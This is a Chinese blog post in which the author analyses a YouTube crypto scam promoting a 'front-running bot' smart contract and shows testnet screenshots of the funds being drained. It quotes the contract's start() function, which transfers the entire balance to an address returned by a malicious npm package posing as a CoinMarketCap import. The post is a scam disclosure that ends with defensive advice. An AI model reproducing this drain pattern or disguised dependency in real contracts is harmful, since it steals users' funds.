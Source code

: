 ```yaml
---
layout: post
title: "差点被骗了一个ETH"
date: 2022-09-11 22:30
---
```


### 起因

前段时间在群里看到群友发了一个油管的[链接](https://www.youtube.com/watch?app=KWnnhv&v=UtOrHj83hSQ%3DcdKfd9)，视频内容大致就是你只需按照他的代码部署机器人的EVM合约即可躺赚收益，原理就是狙击在Uniswap在某些大额交易变成“事实”之前抢先插队在大额买入或卖出之前买入，并且在大额买入或卖出成功后立马卖出或买入完成套利。



### 经过

抱着怀疑态度，看了下评论（当时觉得800多条评论，不可能是假的吧），觉得卧槽牛逼，赶紧试一下。作者还为大家解惑，为什么免费分享代码，是因为想建立自己在圈子的影响力，说得跟真的一样。

![](https://upload-images.jianshu.io/upload_images/2782305-3f4e97132f615f3d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



![](https://upload-images.jianshu.io/upload_images/2782305-4a266de449aeec12.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




代码很简单，[https://pastebin.com/raw/vY4Y2c1y](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbVF5cGluQjJIcmZPVlBhemxIRlFZU0JQVmVOZ3xBQ3Jtc0trcDZaQ291dWd3UTBlaXc5ZThKZE5PRG1wbHJKOG9KcnhYSWtuTEZmRE9nYkhITzB6dkZublQ0YmZkQzNRNThlbk11RUkyWjF2NUN5SjRFTUpEWTNycXVLYXFya2VmeHNfdndRWG5ZRjkzVGVVV29ZYw&q=https%3A%2F%2Fpastebin.com%2Fraw%2FvY4Y2c1y&v=UtOrHj83hSQ)，就一个文件，用remix连接狐狸部署即可，然后向合约转钱，手动执行合约的函数就可以开始赚钱，教程里说转的eth越多赚的越多。

谨慎起见还是用测试网络Ropsten试一下，测试不要钱，反正从水龙头可以随便拿钱（https://faucet.metamask.io/）。

![](https://upload-images.jianshu.io/upload_images/2782305-d8b2664cc4502abb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-2c38630f4c1f29b2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


部署完毕，合约放了两个函数出来`start`就是开始开始赚取收益，`withdraw`就是把合约里的钱进行提现 （看似逻辑非常完美），因为合约也是你自己部署的，自己往合约上转钱。

往合约转1eth

![](https://upload-images.jianshu.io/upload_images/2782305-ef889440ae7867fe.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


有了，点击`start`！开始赚钱！

![](https://upload-images.jianshu.io/upload_images/2782305-ab4aba6ad35842a9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


下一刻，钱没了。看下内部转账，调用`start`之后，合约内部往下面这个地址转了所有的钱。

![](https://upload-images.jianshu.io/upload_images/2782305-ac22d9b1f31bc53e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


开始百思不得其解，因为在代码全局里根本搜不到这个地址。

回来看下`start`方法

```solidity
function start() public payable {      

  /*
  * @dev Perform frontrun action from different contract pools
  * @param contract address to snipe liquidity from
  * @return `liquidity`.
  */

  payable(manager.DepositAddress()).transfer(address(this).balance);
}
```

这个`manager.DepositAddress()`很有误导性，看起来是合约的管理者，但`manager`这个类在代码里找不到。

花了很久很久，终于。。。发现了一个可疑的引入

![](https://upload-images.jianshu.io/upload_images/2782305-d6eb2fbdfe7bc487.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




在`npmjs.com`一搜出来是这么个玩意，死都想不到是这个cmc的npm出了问题。真就还以为是cmc官网的api。真的太有迷惑性了。

![](https://upload-images.jianshu.io/upload_images/2782305-ac62371c7723c090.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




在非常隐蔽的地方找到了这个manager类，其余代码都已注释

![](https://upload-images.jianshu.io/upload_images/2782305-8ee4161188a6d2d0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-e801396f778adc74.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-779d265b062a7250.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


最终在这里返回了骗子的地址。




### 总结

1.凡是说只要部署合约就能赚钱的大概率是骗子，夹子机器是一个复杂的技术, 仅有合约是不能夹到交易的, 因为合约不会自动运行, 必须要有脚本去调用合约，evm上的合约需要消费gas，都是有执行生命周期的，不可能一直存在那。

2.小白部署合约前，即使看不懂solidty代码，也应该在testnet进行测试，确保合约的安全性。

3.solidty的引入默认会从npm拉取，而npm.js上的包上传是不需要任何认证和经过安全review的，引入npm时，请确保该包是否有毒。我在上面后续发现了大量具有迷惑性名称的package来假装官方的package。

4.世界上没有不劳而获的事情，不断提高自己的认知是获的前提。
